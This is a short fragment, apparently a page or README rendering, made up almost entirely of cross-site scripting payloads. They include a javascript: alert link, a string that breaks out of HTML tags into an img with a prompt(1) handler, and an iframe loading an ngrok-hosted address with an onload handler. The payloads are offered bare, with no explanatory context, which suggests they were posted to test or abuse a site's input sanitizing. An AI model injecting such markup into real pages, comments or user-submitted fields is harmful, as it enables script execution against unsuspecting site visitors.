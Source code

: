 # <a href="javascript:alert('XSS Attack!');">Click me</a>
<!---></div></article></p><img src='https://in.pinterest.com/pin/932245191599758496 onchange=prompt(1)></img>
<iframe src=https://81d2-2405-201-5c2b-b043-cf5d-d07b-da69-b547.ngrok-free.app onONLOAD=promot('xss')/>
